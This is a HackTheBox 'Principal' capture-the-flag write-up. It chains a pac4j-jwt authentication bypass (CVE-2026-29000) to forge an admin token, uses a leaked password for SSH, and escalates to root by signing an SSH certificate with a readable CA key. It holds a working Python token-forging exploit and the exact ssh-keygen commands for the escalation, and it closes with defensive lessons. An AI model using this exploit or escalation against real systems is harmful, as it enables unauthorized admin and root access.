




<div align="center">

# 🔐 HackTheBox — Principal

### *An authentication bypass hiding behind a public key*

[](.)
[](.)
[](.)
[](.)

*by [ak4hit](https://github.com/ak4hit)*

</div>

---

## 📋 TL;DR

| Stage | Technique |
|---|---|
| Recon | Nmap → `22/ssh`, `8080/http` (Jetty + `pac4j-jwt/6.0.3`) |
| Fingerprint | Login page + `app.js` reveal a JWE-encrypted JWT auth scheme |
| Vulnerability | **CVE-2026-29000** — `JwtAuthenticator` accepts an unsigned `PlainJWT` wrapped in a valid JWE |
| Exploit | Forge admin JWE using only the **public** key from `/api/auth/jwks` — no signing key needed |
| Lateral info leak | Admin `/api/settings` leaks a plaintext secret reused as an SSH password |
| Foothold | SSH as `svc-deploy` |
| Privesc | `svc-deploy` can read the **SSH CA private key** trusted by `sshd` → self-sign a cert for `root` |
| Root | Certificate-based SSH login as `root` |

```
┌─────────────┐     forge JWE      ┌──────────────┐    leaked secret    ┌─────────────┐    read CA key    ┌────────┐
│ /api/auth/  │ ─────────────────▶ │ ROLE_ADMIN   │ ──────────────────▶ │ svc-deploy  │ ────────────────▶ │  root  │
│ jwks (pub)  │   (no signature)   │ dashboard    │   (settings.json)   │  (SSH)      │  (sign own cert)  │        │
└─────────────┘                    └──────────────┘                    └─────────────┘                    └────────┘
```

---

## 🧭 Step 1 — Reconnaissance

```console
┌──(ak4hit㉿ak4hit)-[~]
└─$ nmap -A <TARGET_IP>

PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 9.6p1 Ubuntu 3ubuntu13.14
8080/tcp open  http-proxy Jetty
| http-title: Principal Internal Platform - Login
|_Requested resource was /login
```

Two ports. SSH is nothing without creds, so `8080` is the way in. The `X-Powered-By` header on every response is the giveaway:

```
X-Powered-By: pac4j-jwt/6.0.3
```

`pac4j` is a Java security engine used for building custom SSO/JWT auth flows. Seeing it fronting an internal "principal" management dashboard immediately raises a question: **is the auth actually solid, or just JWT-shaped?**

---

## 🖥️ Step 2 — Fingerprinting the auth flow

The login page and its `app.js` spell the whole scheme out in the comments:

```javascript
/**
 * Authentication flow:
 * 1. User submits credentials to /api/auth/login
 * 2. Server returns encrypted JWT (JWE) token
 * 3. Token is stored and sent as Bearer token for subsequent requests
 *
 * Token handling:
 * - Tokens are JWE-encrypted using RSA-OAEP-256 + A128GCM
 * - Public key available at /api/auth/jwks for token verification
 * - Inner JWT is signed with RS256
 */
```

Translating: the server hands you a **JWE** (an *encrypted* JWT). Inside that envelope should be a normal signed JWT (`RS256`) carrying `sub`, `role`, `iss`, `iat`, `exp`. The public verification key is conveniently exposed:

```console
┌──(ak4hit㉿ak4hit)-[~]
└─$ curl -s http://<TARGET_IP>:8080/api/auth/jwks
{"keys":[{"kty":"RSA","e":"AQAB","kid":"enc-key-1","n":"lTh54vtBS1NAWrxAFU1NEZdrVxPeSMhHZ5NpZX-W..."}]}
```

That's a **public** key — normally only useful for *verifying* signatures or *encrypting* payloads, never for forging them. Every protected endpoint correctly rejects unauthenticated requests:

```console
┌──(ak4hit㉿ak4hit)-[~]
└─$ curl -s http://<TARGET_IP>:8080/api/dashboard
{"error":"Unauthorized","message":"Bearer token required"}
```

So server-side auth is real. The question becomes: **is the crypto actually enforced correctly?**

<p align="center">
  
  <br><em>The Principal Internal Platform login page</em>
</p>

---

## 💥 Step 3 — CVE-2026-29000: signature verification bypass

A quick check against recent `pac4j` advisories turns up an exact match:

> **CVE-2026-29000** — *pac4j-jwt versions prior to 4.5.9, 5.7.9, and 6.3.3 contain an authentication bypass vulnerability in `JwtAuthenticator` when processing encrypted JWTs that allows remote attackers to forge authentication tokens. Attackers who possess the server's RSA public key can create a JWE-wrapped `PlainJWT` with arbitrary subject and role claims, bypassing signature verification to authenticate as any user including administrators.*
>
> **CVSS 3.1: 9.1 (Critical)** — [pac4j security advisory](https://www.pac4j.org/blog/security-advisory-pac4j-jwt-jwtauthenticator.html)

The target is running **pac4j-jwt 6.0.3** — squarely inside the vulnerable range (fixed in 6.3.3).

### Why it works

`JwtAuthenticator` is supposed to:
1. Decrypt the outer JWE using its RSA private key.
2. Verify the inner payload is a properly `RS256`-signed JWT.
3. Only then trust the claims inside.

The bug: step 2 also silently accepts a **`PlainJWT`** — an *unsigned* JWT (`{"alg":"none"}`, empty signature segment) — as valid decrypted content. Since anyone can build a JWE using nothing but the **public** encryption key already sitting at `/api/auth/jwks`, the private *signing* key becomes irrelevant. You never need it.

```
Attacker builds:            Server does:
┌───────────────────┐      ┌──────────────────────────┐
│ unsigned JWT       │      │ 1. decrypt JWE (public    │
│ {"alg":"none"}     │ ───▶ │    key already known)     │
│ sub: admin          │      │ 2. read inner PlainJWT    │
│ role: ROLE_ADMIN    │      │ 3. ⚠ trust claims,        │
└───────────────────┘      │    skip signature check   │
        wrapped in JWE      └──────────────────────────┘
        (RSA-OAEP-256 +
         A128GCM)
```

### Building the exploit

```python
#!/usr/bin/env python3
"""CVE-2026-29000 PoC — forges a JWE-wrapped unsigned JWT."""
import base64, json, time, sys
from jwcrypto import jwk, jwe

jwks_key = {
    "kty": "RSA", "e": "AQAB", "kid": "enc-key-1",
    "n": "lTh54vtBS1NAWrxAFU1NEZdrVxPeSMhHZ5NpZX-W...",  # from /api/auth/jwks
}

def b64url(data: bytes) -> str:
    return base64.urlsafe_b64encode(data).rstrip(b"=").decode()

def build_plain_jwt(claims: dict) -> str:
    header_b64  = b64url(json.dumps({"alg": "none"}).encode())
    payload_b64 = b64url(json.dumps(claims).encode())
    return f"{header_b64}.{payload_b64}."          # empty signature

def build_jwe(plain_jwt: str, key: jwk.JWK) -> str:
    token = jwe.JWE(plain_jwt.encode(), recipient=key,
                     protected={"alg": "RSA-OAEP-256", "enc": "A128GCM", "kid": "enc-key-1"})
    return token.serialize(compact=True)

now = int(time.time())
claims = {"sub": "admin", "role": "ROLE_ADMIN",
          "iss": "principal-platform", "iat": now, "exp": now + 3600}

key = jwk.JWK(**jwks_key)
print(build_jwe(build_plain_jwt(claims), key))
```

```console
┌──(ak4hit㉿ak4hit)-[~]
└─$ python3 exploit.py admin ROLE_ADMIN
[*] Claims embedded: {"sub": "admin", "role": "ROLE_ADMIN", "iss": "principal-platform", ...}
[*] Forged token (use as Bearer token):

eyJhbGciOiJSU0EtT0FFUC0yNTYiLCJlbmMiOiJBMTI4R0NNIiwia2lkIjoiZW5jLWtleS0xIn0.lD-Xs2Ie5IHNCld1C...
```

Five parts, valid compact JWE serialization — `header.encrypted_key.iv.ciphertext.tag`. No private key touched at any point.

---

## 🎯 Step 4 — Riding the forged token into the dashboard

The frontend just reads the token straight out of `sessionStorage`:

```javascript
static getToken() {
    return sessionStorage.getItem('auth_token');
}
```

So rather than reverse-engineering a login POST, the forged token can simply be planted directly in the browser console on the login page:

```javascript
sessionStorage.setItem('auth_token', 'eyJhbGciOiJSU0EtT0FFUC0yNTYi...');
```

<p align="center">
  
  <br><em>Planting the forged JWE token via <code>sessionStorage</code> in DevTools</em>
</p>

Then navigating to `/dashboard` fires `initDashboard()`, which hits `/api/dashboard` with the forged Bearer token — and the server happily decrypts it, trusts the unsigned inner JWT, and returns a fully authenticated `ROLE_ADMIN` session:

```console
┌──(ak4hit㉿ak4hit)-[~]
└─$ curl -s http://<TARGET_IP>:8080/api/dashboard -H "Authorization: Bearer $TOKEN"
{"user":{"role":"ROLE_ADMIN","username":"admin"}, ...}
```


---

## 👥 Step 5 — Enumerating users

With admin access, `/api/users` (and the rendered dashboard) hands over the full org roster:

<p align="center">
  
  <br><em>Full user management panel — 8 accounts, including a disabled second admin and a DevOps service account</em>
</p>

Standout entry:

| Username | Role | Note |
|---|---|---|
| `svc-deploy` | `deployer` | *"Service account for automated deployments via SSH certificate auth."* |

An automation account explicitly tied to **SSH certificate auth** is exactly the kind of account worth chasing next — it usually implies a trusted CA sitting somewhere on disk.

---

## ⚙️ Step 6 — Settings panel: the info leak

```console
┌──(ak4hit㉿ak4hit)-[~]
└─$ curl -s http://<TARGET_IP>:8080/api/settings -H "Authorization: Bearer $TOKEN"
```

<p align="center">
  
  <br><em>System settings panel, rendered from the raw JSON above</em>
</p>

Buried in the "Security" block, labeled deceptively as an `encryptionKey`:

```json
"encryptionKey": "D3pl0y_$$H_Now42!"
```

The name is a red herring — the *actual* JWE crypto uses RSA-OAEP-256/A128GCM key material, not a string like this. Read literally (`Deploy SSH Now`), it's clearly a **reused secret**, and the "Infrastructure" panel confirms exactly what for:

```json
"sshCaPath": "/opt/principal/ssh/",
"notes": "SSH certificate auth configured for automation - see /opt/principal/ssh/ for CA config.",
"sshCertAuth": "enabled"
```

---

## 🔑 Step 7 — Foothold: SSH as svc-deploy

```console
┌──(ak4hit㉿ak4hit)-[~]
└─$ ssh svc-deploy@<TARGET_IP>
svc-deploy@<TARGET_IP>'s password: D3pl0y_$$H_Now42!

Welcome to Ubuntu 24.04.4 LTS (GNU/Linux 6.8.0-101-generic x86_64)
Last login: Tue Jul 21 12:35:19 2026 from 10.10.16.152

svc-deploy@principal:~$ id
uid=1001(svc-deploy) gid=1002(svc-deploy) groups=1002(svc-deploy),1001(deployers)

svc-deploy@principal:~$ cat user.txt
27b4************************************
```

🚩 **User flag captured.**

The leaked "encryption key" was, unsurprisingly, just the SSH password — credential reuse doing the heavy lifting once again.

---

## 👑 Step 8 — Privesc: signing our own root certificate

Following the settings panel's own hint straight to `/opt/principal/ssh/`:

```console
svc-deploy@principal:~$ cd /opt/principal/ssh/
svc-deploy@principal:/opt/principal/ssh$ ls
README.txt  ca  ca.pub

svc-deploy@principal:/opt/principal/ssh$ cat README.txt
CA keypair for SSH certificate automation.
This CA is trusted by sshd for certificate-based authentication.
Use deploy.sh to issue short-lived certificates for service accounts.
```

`svc-deploy` doesn't just have a *deploy script wrapper* — it has **direct read access to the actual CA private key** (`ca`). Confirming `sshd` trusts it:

```console
svc-deploy@principal:/etc/ssh/sshd_config.d$ cat 60-principal.conf
PubkeyAuthentication yes
PasswordAuthentication yes
PermitRootLogin prohibit-password
TrustedUserCAKeys /opt/principal/ssh/ca.pub
```

Two critical facts:
- `TrustedUserCAKeys` points exactly at the CA public key matching the private key we can read.
- `PermitRootLogin prohibit-password` — root login is blocked via *password*, but **not** via certificate/pubkey.
- No `AuthorizedPrincipalsFile` is configured, meaning sshd falls back to matching the certificate's principal name directly against the local username.

That's everything needed to mint our own admin pass into the box:

```console
svc-deploy@principal:/tmp$ ssh-keygen -t rsa -b 4096 -f mykey -N ""
Your identification has been saved in mykey
Your public key has been saved in mykey.pub

svc-deploy@principal:/tmp$ ssh-keygen -s /opt/principal/ssh/ca -I root -n root mykey.pub
Signed user key mykey-cert.pub: id "root" serial 0 for root valid forever

svc-deploy@principal:/tmp$ ssh -i mykey root@localhost
Welcome to Ubuntu 24.04.4 LTS (GNU/Linux 6.8.0-101-generic x86_64)

root@principal:~# cat root.txt
55a4************************************
```

👑 **Root flag captured.**

---

## 🗺️ Full Attack Chain

```
Nmap → 8080/http (Jetty + pac4j-jwt/6.0.3) + 22/ssh
              │
              ▼
     Login page + app.js reveal JWE-encrypted JWT auth
     Public key exposed at /api/auth/jwks
              │
              ▼
     CVE-2026-29000 — JwtAuthenticator trusts unsigned
     PlainJWT inside a valid JWE (no signature needed)
              │
              ▼
     Forge JWE with sub=admin, role=ROLE_ADMIN
     Plant in sessionStorage → /dashboard → full ROLE_ADMIN
              │
              ▼
     /api/users → svc-deploy noted for SSH cert automation
     /api/settings → leaked secret: D3pl0y_$$H_Now42!
              │
              ▼
     SSH svc-deploy@target using leaked secret
              │
         USER FLAG 🚩
              │
              ▼
     /opt/principal/ssh/ca → readable CA private key
     sshd_config.d/60-principal.conf → TrustedUserCAKeys
     confirms CA trust, no principal restrictions
              │
              ▼
     ssh-keygen -s ca -I root -n root mykey.pub
     ssh -i mykey root@localhost
              │
          ROOT FLAG 👑
```

---

## 🧠 Key Takeaways

- **A public key is not harmless.** Exposing `/api/auth/jwks` is normal and expected for JWT/JWE verification — but a broken authenticator can turn "public key you're supposed to have" into "everything you need to forge admin access."
- **Encryption ≠ authentication.** The JWE wrapper here provided confidentiality of the token in transit, but confidentiality was never the security boundary that mattered — signature verification was, and that's exactly what got skipped.
- **Patch your auth libraries fast.** `pac4j-jwt` 6.0.3 sat inside the vulnerable window for a CVSS 9.1 bug; upgrading to `6.3.3`+ closes it entirely.
- **Don't name secrets after what they aren't.** Calling an SSH password `encryptionKey` in a settings payload doesn't make it less of a credential leak — it's arguably worse, since it doesn't look worth chasing at a glance.
- **A readable CA private key is total trust delegation.** Any account that can read `/opt/principal/ssh/ca` can mint a certificate for *any* principal sshd recognizes — including `root` — regardless of `PermitRootLogin` password restrictions. If an account only needs to *request* certs, it should never have read access to the CA key itself; that belongs behind a signing service.
- **Credential reuse chains privilege escalation for free.** One leaked string did double duty as both an SSH password and (nominally) a JWE secret label — a single leak, two doors opened.

---

<div align="center">

*HackTheBox · Principal · Medium · Linux · by [ak4hit](https://github.com/ak4hit)*

</div>
